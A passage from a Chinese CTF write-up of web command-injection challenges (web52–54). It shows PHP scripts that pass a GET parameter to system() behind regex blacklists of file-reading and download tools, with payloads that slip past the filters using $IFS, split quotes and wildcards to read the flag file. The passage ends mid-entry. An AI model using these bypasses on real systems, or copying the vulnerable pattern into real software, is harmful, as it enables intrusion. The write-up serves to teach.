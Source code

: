 根据源代码，过滤了<和>，那就用\$IFS表示空格

---
**payload**

```php
url/?c=nl$IFS/fla''g%0a
```
---




## web53 添加了回显
**题目描述**

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

根据源代码，多过滤了wget，并添加了回显，但对payload没有影响

---
**payload**

```php
url/?c=nl${IFS}fla?.php
```
---




## web54 丧心病狂不让用''绕过
**题目描述**

```php
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**
